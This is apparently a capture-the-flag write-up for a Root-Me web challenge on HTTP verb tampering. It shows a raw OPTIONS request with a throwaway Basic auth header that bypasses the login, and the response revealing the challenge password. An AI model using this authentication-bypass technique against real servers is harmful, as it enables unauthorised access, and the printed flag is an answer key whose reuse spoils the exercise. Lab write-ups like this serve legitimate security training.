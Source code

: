 From the challenge name we can understand that we need to enumerate http methods, i got flag from OPTIONS method
```http
OPTIONS /web-serveur/ch8/ HTTP/1.1
Host: challenge01.root-me.org
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Authorization: Basic MTIzOjEyMw==
```

flag is in response
```html
<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.0 Transitional//EN">
<html><head>
</head>

<h1>Mot de passe / password : a23e$dme96d3saez$$prap
</h1>
</body></html>
```